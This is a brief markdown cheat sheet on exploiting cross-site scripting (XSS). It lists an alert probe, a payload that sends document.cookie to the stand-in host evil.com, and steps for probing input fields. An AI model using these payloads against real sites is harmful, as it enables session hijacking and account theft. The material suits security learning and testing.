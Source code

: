 # 🔥 Exploiting XSS (Cross-Site Scripting)

## Overview
XSS allows attackers to execute malicious JavaScript in a victim's browser.

## Example Payloads
1. Basic Alert:
    ```html
    <script>alert('XSS');</script>
    ```
2. Stealing Cookies:
    ```html
    <script>document.location='http://evil.com?c='+document.cookie;</script>
    ```

## Steps
1. Identify vulnerable input fields.
2. Test with various payloads (HTML, JavaScript, attributes).

